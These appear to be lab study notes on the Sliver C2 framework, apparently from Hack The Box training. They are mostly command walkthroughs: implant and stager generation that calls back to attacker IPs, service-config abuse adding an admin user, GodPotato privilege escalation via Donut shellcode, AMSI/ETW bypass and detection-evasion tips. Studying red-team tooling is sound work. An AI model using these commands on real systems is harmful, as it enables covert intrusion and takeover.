

# Sliver

## Concepts

[Sliver](https://sliver.sh/) is a cross-platform C2 framework built for red team operations and adversary emulation. It enables secure, covert communication with target systems over protocols like TCP, mutual TLS (mTLS), HTTP(S), DNS, named pipes, and WireGuard. Once deployed, it supports RCE, information gathering, and post-exploitation tasks across Windows, Linux, and macOS.

<figure><figcaption><p>The Sliver infrastructure (<a href="https://sliver.sh/tutorials?name=1+-+Getting+Started">source</a>).</p></figcaption></figure>

### [Beacons vs Sessions](https://sliver.sh/tutorials?name=2+-+Beacons+vs+Sessions)


Session names are <mark style="color:$danger;">RED</mark>, while beacon names are <mark style="color:blue;">BLUE</mark>.


An implant is an executable that establishes a communucation channel between the server and the target. Sliver implants operate in two modes:

* **Sessions maintain a persistent connection** to the C2 using long-polling, keeping a TCP connection open for continuous communication. This allows for real-time interaction but increases network visibility.
* **Beacons** **call back at configurable intervals and remain dormant between check-ins**. This periodic behavior reduces the implant’s network footprint, making detection less likely. Callback frequency can be tuned and shortened temporarily to enable active control when needed.

In practice, a beacon is typically deployed for stealthy persistence. During active phases of an engagement, its sleep interval can be reduced or converted into a session to enable faster, interactive command execution and system enumeration.

### Beacon Operations

Sliver provides multiple **process injection techniques** and supports the execution of external .NET tools via the `execute-assembly` feature. This functionality uses the **fork-and-run method**, in which a new sacrificial process is spawned, injected with post-exploitation payloads, allowed to execute in-memory, and terminated once the operation completes. This enables tools like [StandIn](https://github.com/FuzzySecurity/StandIn) to operate covertly within the memory space of legitimate Windows processes, reducing on-disk artifacts and increasing evasion.

<table><thead><tr><th width="364.66668701171875">Used For</th><th>Process</th></tr></thead><tbody><tr><td>Credential theft</td><td><code>lsass.exe</code></td></tr><tr><td>Evasion</td><td><code>calc.exe</code>, <code>notepad.exe</code>, <code>svchost.exe</code>, <code>werfault.exe</code>, <code>wuauclt.exe</code>, <code>spoolsv.exe</code></td></tr><tr><td>Application control bypass</td><td><code>backgroundtaskhost.exe</code></td></tr><tr><td>Application control bypass and other evasion</td><td><code>regsvr32.exe</code>, <code>searchprotocolhost.exe</code></td></tr><tr><td>Evasion via COM abuse (executes often, has a short lifetime)</td><td><code>dllhost.exe</code></td></tr></tbody></table>

To further enhance evasion, Sliver supports **PPID spoofing**—a technique that spawns a process with an arbitrary parent, masking the true origin. This manipulation distorts the normal parent-child process tree, **allowing malicious processes to appear as though they were spawned by legitimate system components**.

**Detection often relies on identifying anomalous relationships**, such as `WINWORD.exe` spawning `rundll32.exe` or `cmd.exe`, which are strong indicators of compromise. To avoid raising suspicion, adversaries can **replicate legitimate process hierarchies**, such as `svchost.exe` launching `RuntimeBroker.exe`, `sihost.exe`, `taskhostw.exe`, or `SearchUI.exe`. Impersonating these expected relationships during injection operations improves operational security and reduces the likelihood of detection during process analysis.

### Armory (Tool Execution)

Sliver provides built-in modules for standard beacon operations and post-exploitation tasks. In addition to these native features, it integrates with the [Sliver Armory](https://github.com/sliverarmory/armory/blob/master/armory.json), a repository of commonly used offensive tools (precompiled .NET binaries) that can be downloaded and used as if they were native Sliver commands.

For executing them, it spawns a child process (`notepad.exe` by default).


```bash
# Download indeces
armory

# Install modules
armory install rubeus
```


For executing external .NET tools, Sliver supports both `execute-assembly` and `inline-execute-assembly`. &#x20;

* `execute-assembly` enables remote process injection using the fork-and-run technique, which includes support for PPID spoofing to improve stealth. It also supports self-injection (`-i`), leveraging Sliver’s built-in AMSI (`-M`) and ETW (`-E)` bypasses to evade in-memory scanning and telemetry.


**Event Tracing for Windows (ETW)** is a telemetry framework used by the OS and EDRs to monitor real-time activity, including PowerShell and .NET execution. It enables detection of in-memory operations without disk artifacts. Red team tools often tamper with ETW in memory to avoid detection.


* `inline-execute-assembly` was introduced primarily for self-process injection, allowing operators to avoid spawning new sacrificial processes entirely and operate from within the beacon's current context.

The way C2 frameworks implement `execute-assembly` allows tools to run entirely in memory. It loads a .NET assembly (e.g., `ADSearch.exe`) directly into the memory of an already running process, typically the implant. The C2 never drops the file to disk, but instead it **reflects the assembly into memory and invokes its `Main()` method**.

This makes execution stealthier compared to traditional CLI tools like PowerView, which are typically run via `powershell.exe` or similar, often touching disk or spawning new processes that can trigger EDR alerts. So while tools like ADSearch are just .NET programs, they become "in-memory" and stealthy because of **how the C2 delivers and runs it**, not because of anything unique in the code itself. That said, well-written .NET tools are often **designed with C2 execution in mind**, e.g., no GUI, minimal dependencies, single assembly.

### LDAP Queries


LDAP syntax [documentation](https://learn.microsoft.com/en-us/archive/technet-wiki/5392.active-directory-ldap-syntax-filters) and various [cheat sheets](https://gist.github.com/jonlabelle/0f8ec20c2474084325a89bc5362008a7) offer quick lookup for common query structures.


Parts of domain enumeration rely on raw LDAP queries, which are used by most tools under the hood to extract data from AD. Understanding LDAP filter syntax allows operators to craft custom queries for tailored enumeration, especially as tools like [PowerView](https://x7331.gitbook.io/notes/) and [SharpView ](https://github.com/tevora-threat/SharpView)are increasingly detected by modern defenses. Alternatives such as [StandIn](https://github.com/FuzzySecurity/StandIn) and [ADSearch](https://github.com/tomcarver16/ADSearch) support custom LDAP queries and provide similar functionality with reduced detection risk. **Enabling verbosity when running these tools helps reveal the specific LDAP filters being executed, aiding both learning and operational tuning**.&#x20;

However, tools that execute multiple LDAP queries in rapid succession can trigger detections by security mechanisms like Microsoft Defender for Identity (MDI) and Microsoft Defender for Endpoint (MDE/ATP). In realistic offensive operations, it is advisable to **pace such enumeration over extended intervals** to reduce noise and avoid triggering behavioral analytics.

### Foothold

To establish a remote foothold via process injection, the typical approach begins with deploying a Sliver implant on a compromised host to maintain access. Once deployed, a process injection technique is used to execute shellcode within a legitimate process.

This is commonly done using a custom PE loader, such as NtDropper or BinLoader for Windows and [memexec](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) for Linux, which leverages low-level Windows NtAPI calls to avoid detection. These loaders retrieve shellcode, often from a local or remote web server, and inject it directly into memory. The typical flow involves:&#x20;

1. Loader execution
2. Shellcode retrieval&#x20;
3. In-memory injection using stealthy system calls.

## Usage

### Operators

Sliver can differentiate who can connect based on the generated profile from its server:

```bash
# Generate a profile
new-operator -n operator-1 -l 10.10.10.5 -P all

[*] Generating new client certificate, please wait ...
[*] Saved new client config to: /home/x7331/htb/tools/sliver/student_10.10.14.2.cfg
```

For operators to be able to connect to the server, the multiplayer mode must be enabled:

```bash
# Enable the multiplayer mode
[server] sliver > multiplayer

[*] Multiplayer mode enabled!
```

For the client to connect the server, the profile must be specified:

```bash
# Connect to the server
$ ./sliver-client_linux import student_10.10.14.2.cfg
$ ./sliver-client_linux 
```

### Sessions

```bash
# Generate a session implant
generate -b localhost --os linux --skip-symbols --debug

# List implants
implants

# List sessions
sessions

# Choose session
use

# Get session information
info
```

### Beacons

```bash
# Generate a beacon implant
generate beacon -b localhost --skip-symbols --debug -j5 -S 15 --os linux

# List beacons
beacons

# Check beacons' callback times
beacons watch
info

# Modify the jitter and callback time on the fly
reconfig -i 5s -j 1s

# List commands issued for beacons
tasks

# Results of the previously run tasks
tasks fetch

# Get a new session from the beacon
interactive
```

The `--skip-symbols` flag skips obfuscation which makes the beacon smaller in size:


```bash
# Generate a non-obfuscated HTTP implant in beacon mode
generate beacon --http 127.0.0.1 --skip-symbols -N http_beacon --os windows

# Generate an obfuscated HTTP implant in beacon mode
generate beacon --http 127.0.0.1 -N http_beacon_obf --os windows

# Compare sizes
$ ls -lh http_beacon.exe http_beacon_obf.exe
-rwx------ 1 x7331 x7331 19M Mar 29 12:36 http_beacon.exe
-rwx------ 1 x7331 x7331 35M Mar 29 12:38 http_beacon_obf.exe
```


### Listeners

Sliver operates by default on TCP 31337.


```bash
# Start a listener
http
https

# Create an HTTP listener on port 8888
http --lport 8888

# List active listeners
jobs

#-----------------#
# Pivot listeners #
#-----------------#

# Create a TCP pivot listener
pivots tcp --lport 8081

# Generate the corresponding implant
generate --tcp-pivot <attacker-IP>:8081 -f shellcode -e --name dcorp-adminsrv_tcp -s ./dcorp-adminsrv_tcp.bin
```


Named pipes are processes (e.g. process A on server A and process B on client B) that create server-client communication. They are typically used for pivoting on Windows hosts. Their naming format is as follows: `\\\\serverName\\pipe\\pipeName` or `\\\\.\\pipe\\pipeName`.


```powershell
# Enumerate pipes
ls \\.\pipe\
```



```bash
# Create a named pipe on an active beacon
pivots named-pipe --bind myNamedPipe

[*] Started named pipe pivot listener \\.\pipe\myNamedPipe with id 1

# Generate the pivot implant
generate --named-pipe 127.0.0.1/pipe/myNamedPipe -N myPipe --skip-symbols

[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 1s
[*] Implant saved to /home/mollysec/myPipe.exe
```


### Services


```bash
# Enumerate services
sa-sc-enum <target>
```


Sliver's `remote-sc-*` command can be used for service interaction (similar to `sc.exe`). It uses a COFF-Loader via [Beacon Object Files](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_main.htm) (BOFs), so all execution is performed within the current Silver beacon process:


```bash
# Stop the service
remote-sc-stop -t 100 "" "<service-name>"

# Modify the configuration (error_mode 1 → normal, start_mode 2 → auto)
remote-sc-config "" "<service-name>" "c:\windows\system32\net.exe localgroup administrators dcorp\student337 /add" 1 2

# Start the service
remote-sc-start -t 100 "" "<service-name>"
```


An alternative of abusing a service is to upload a Sliver session implant:


```bash
# Reconfigure the service
remote-sc-config -t 100 "" "<service-name>" "c:\windows\system32\cmd.exe /c start /b c:\ad\tools\sliver\binloader.exe 172.16.100.37 80 dcorp-std337_https.bin" 1 2
```


### Processes


```bash
# List processes
ps

# Migrate to a target process
migrate -p <PID>
migrate -n <process-name>

# List processes running as the specified user
ps -c -o '<domain\user>'
```


### RCE

RCE can be achieved using the `execute` command, which spawns a specified process on the host where the implant is running. The `-o` flag is used to capture the output of the executed process:


```bash
execute -o -S -t 180 winrs -r:dcorp-adminsrv 'set username & set computername'
```


It's important to note that `execute` runs under the security context of the implant's current token by default, meaning any remote interaction is limited by that token’s privileges.

## Example

### Foothold

Let's assume we have found a web server that accepts `.aspx` file uploads. Our goal is to create an implant, upload it to the web server, and get a callback on our C2 server.

Create an implant configuration blueprint ([**profile**](https://sliver.sh/tutorials?name=3+-+C2+Profiles+and+configuration)) named `foothold` which connects back to our attacker host (`10.10.10.5`) on port `8088` via HTTP:


```bash
# Create a new HTTP implant profile
profiles new --http 10.10.10.5:8088 --format shellcode --skip-symbols foothold

# List profiles
profiles

# Generate the implant
profiles generate foothold

# List implants
implants
```


The generated implant it will have an `ID`. When downloading our payload from the staging server the URL needs to match that:

```
https://sliver-ip/definitely/not/malware?x=yourID
```

The conditions for successful staging are:

* There has to be an HTTP URL parameter containing the implant ID.
* The digits found in the `ID` need to match an implant ID. For example, if the implant ID is `1234`, `abcd1234` and `12beu34` are both valid values.

Next, the implant needs to be exposed ([**staged**](https://github.com/BishopFox/sliver/wiki/Stagers)):


```bash
# Stage (expose) the implant
implants stage
```


Starts an HTTP C2 listener on port `8088` so the implant can connect to:

```coffeescript
# Launch a listener
http -L 10.10.10.5 -l 8088
```

Retrieve the stager:


```bash
curl http://localhost/hello.yml?z=19778
curl http://localhost/hello.yml?z=197randomstring78
```



Generate the full implant (no stager?!):


```coffeescript
# Generate the payload
[server] sliver > generate --http 10.10.14.2:8088 --format shellcode --save payload.bin --skip-symbols

[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 3s
[*] Implant saved to /home/x7331/htb/tools/sliver/payload.bin
```


Convert the `bin` file to C# byte array:

```bash
# Create profile with shellcode format
[server] sliver > profiles new --http 10.10.14.2:8088 --format shellcode htb

# Start stage listener WITH --prepend-size flag for Metasploit compatibility
[server] sliver > stage-listener --url tcp://10.10.14.2:4443 --profile htb --prepend-size

[*] Job 5 (tcp) started

# Start HTTP C2 listener
[server] sliver > http -L 10.10.14.2 -l 8088

[*] Starting HTTP :8088 listener ...
[*] Successfully started job #6
```

Create an ASPX payload:


```bash
# Use custom/reverse_tcp (not winhttp) since stage-listener is TCP
$ msfvenom -p windows/x64/custom/reverse_tcp LHOST=10.10.14.2 LPORT=4443 -f aspx -o sliver_stager.aspx
```


After uploading the payload in the web app:

```bash
$ curl <http://10.129.205.234/uploads/sliver_stager>
```

On Sliver:


```bash
[*] Session 8068c409 MELTED_DOE - 10.129.205.234:49832 (web01) - windows/amd64 - Sun, 29 Mar 2026 15:46:36 BST

# List sessions
sessions
 
# Select session
use 8068c409

# Interact with the target
whoami
```


#### Stagers

We need:

* a staging server (Sliver)
* a stage 2 payload (typically Sliver shellcode)
* stagers (via `msfvenom`, the Sliver `generate stager` cmd, or custom)


```bash
# Create a new profile
profiles new --mtls 192.168.122.1 --format shellcode win-shellcode

# Create a staging listener and link it to the profile
stage-listener --url http://192.168.122.1:1234 --profile win-shellcode
```


#### HTTP Stagers

MSF stagers are only support on Windows and we need to use the `--prepend-size` flag. This prepend the size of the payload to the final binary sent to the stager (required by MSF):


```bash
stage-listener --url http://192.168.122.1:1234 --profile win-shellcode --prepend-size
```


Staging listeners accept `tcp://`, `http://`, and `https://` schemes.


The `custom/reverse_http` is not compatible with Sliver shellcodes at the moment.



```bash
# Create a payload
msfvenom --payload windows/x64/custom/reverse_winhttp LHOST=192.168.122.1 LPORT=1234 LURI=/hello.woff --format raw --out /tmp/stager.bin
```


#### TCP Stagers


```bash
# Create a TCP stage listener
stage-listener --url tcp://192.168.122.1:1234 --profile win-shellcode --prepend-size

# Create a payload (LHOST and LPORT should match the --url parameters above)
msfvenom --payload windows/x64/custom/reverse_tcp LHOST=192.168.122.1 LPORT=1234 --format raw --out /tmp/stager.bin
```


### PrivEsc

* Aliases and extensions function similarly to `execute-assembly`, i.e., they are artifacts of native code loaded by the implant and executed via a child process.
* The `--` after the tool’s name lets Sliver know that there won’t be more positional args

```bash
> seatbelt -- -group=all
```

External .NET binaries can be executed as follows:

```bash
# Executes under the default notepad.exe child process
> execute-assembly /home/htb-ac590/SharpCollection/NetFramework_4.0_Any/Seatbelt.exe -group=system

# Change child process
> execute-assembly /home/htb-ac590/SharpCollection/NetFramework_4.0_Any/Seatbelt.exe -group=system --process <process>
```

[SharUp](https://github.com/GhostPack/SharpUp) is similar to [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1):

```bash
> sharpup -- audit
...
=== Abusable Token Privileges ===
	SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED

> execute-assembly /home/htb-ac590/GodPotato-NET4.exe -- -cmd "whoami"
```

[**Donut**](https://github.com/TheWover/donut) is a tool focused on creating binary shellcodes that can be executed in memory. Donut will generate a shellcode of a .NET binary, which can be executed via the `execute-shellcode`:

```bash
$ git clone <https://github.com/TheWover/donut>
$ cd donut/
$ make -f Makefile
$ ./donut 
```

To use Donut, we must first have an HTTP or mTLS beacon:

```bash
[server] sliver (MELTED_DOE) > generate beacon --http 10.10.14.2:9002 --skip-symbols -N http-beacon
[server] sliver (MELTED_DOE) > cd tasks

[*] c:\\windows\\tasks

[server] sliver (MELTED_DOE) > upload http-beacon.exe

[*] Wrote 1 file successfully to c:\\windows\\tasks\\http-beacon.exe

[server] sliver (MELTED_DOE) > http --lhost 10.10.14.2 --lport 9002

[*] Starting HTTP :9002 listener ...
[*] Successfully started job #5
```

```bash
# a -> architecture (2=amd64)
# b -> AMSI/WLDP/ETW bypass (2=Abort on fail)
# p -> arguments
# o -> output dir and shellcode name
$ ./donut -i ../../potatoes/GodPotato-NET4.exe -a 2 -b 2 -p '-cmd c:\\windows\\tasks\\http-beacon.exe' -o ./godpotato.bin

  [ Donut shellcode generator v1 (built Mar 29 2026 17:44:51)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "../../potatoes/GodPotato-NET4.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : .NET EXE
  [ Parameters    : -cmd c:\\windows\\tasks\\http-beacon.exe
  [ Target CPU    : amd64
  [ AMSI/WDLP/ETW : abort
  [ PE Headers    : overwrite
  [ Shellcode     : "./godpotato.bin"
  [ Exit          : Thread
```

```bash
# Create a sacrificial process
[server] sliver (MELTED_DOE) > execute-assembly /home/htb-ac590/Rubeus.exe createnetonly /program:C:\\\\windows\\\\system32\\\\notepad.exe
#or
[server] sliver (MELTED_DOE) > rubeus -- createnetonly /program:c:\\\\windows\\\\system32\\\\notepad.exe

[*] rubeus output:

   ______        _
  (_____ \\      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \\| ___ | | | |/___)
  | |  \\ \\| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Create Process (/netonly)

[*] Using random username and password.

[*] Showing process : False
[*] Username        : SK2BJHHG
[*] Domain          : KDBRMA21
[*] Password        : PSYXIUD5
[+] Process         : 'c:\\windows\\system32\\notepad.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2332
[+] LUID            : 0x295e44

# Execute the payload in memory
[server] sliver (MELTED_DOE) > execute-shellcode -p 2332 donut/godpotato.bin

[*] Executed shellcode on target

# List tasks and their status
sliver (beacon) > tasks

# Convert beacon to session
sliver (beacon) > interactive
```

## Exercise
